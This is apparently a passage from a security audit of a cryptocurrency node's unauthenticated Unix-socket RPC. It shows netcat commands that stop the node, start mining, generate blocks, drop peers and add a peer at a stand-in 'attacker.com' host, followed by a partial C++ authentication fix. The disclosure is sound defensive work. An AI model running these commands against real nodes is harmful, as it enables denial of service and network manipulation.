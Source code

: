 #### Attack Scenarios

**Scenario 1: Local Privilege Escalation**
```bash
# Any user on the system can:
nc -U /tmp/coinbasechain.sock
{"method":"stop"}

# Node shuts down immediately
```

**Scenario 2: Malicious Mining Control**
```bash
# Attacker starts mining to exhaust CPU
echo '{"method":"startmining"}' | nc -U /tmp/coinbasechain.sock

# Or generates 1000 blocks to manipulate chain (regtest)
echo '{"method":"generate","params":["1000"]}' | nc -U /tmp/coinbasechain.sock
```

**Scenario 3: Network Manipulation**
```bash
# Disconnect all peers
for peer in $(getpeerinfo); do
    echo '{"method":"addnode","params":["'$peer'","remove"]}' | nc -U /tmp/coinbasechain.sock
done

# Add malicious peers
echo '{"method":"addnode","params":["attacker.com:8333","add"]}' | nc -U /tmp/coinbasechain.sock
```

#### Impact

- **Complete node compromise** by any local user
- **Denial of service** via `stop` command
- **Resource exhaustion** via mining commands
- **Network isolation** via peer manipulation
- **Consensus manipulation** via `setmocktime` and `generate`
- **Information disclosure** of all blockchain data

#### Recommended Fix

Implement multi-layer authentication:

```cpp
class RPCServer {
private:
    std::string auth_token_;  // Shared secret
    std::set<uid_t> allowed_uids_;  // Allowed user IDs

    bool AuthenticateClient(int client_fd) {
        // Layer 1: Unix credentials check
        struct ucred cred;
        socklen_t len = sizeof(cred);
        if (getsockopt(client_fd, SOL_SOCKET, SO_PEERCRED, &cred, &len) == 0) {
            if (allowed_uids_.find(cred.uid) == allowed_uids_.end()) {
                LOG_WARN("Rejected connection from unauthorized UID: {}", cred.uid);
                return false;
            }
        }

        // Layer 2: Token-based authentication
        char buffer[256];
        ssize_t received = recv(client_fd, buffer, sizeof(buffer) - 1, MSG_PEEK);
        if (received <= 0) return false;

        buffer[received] = '\0';
```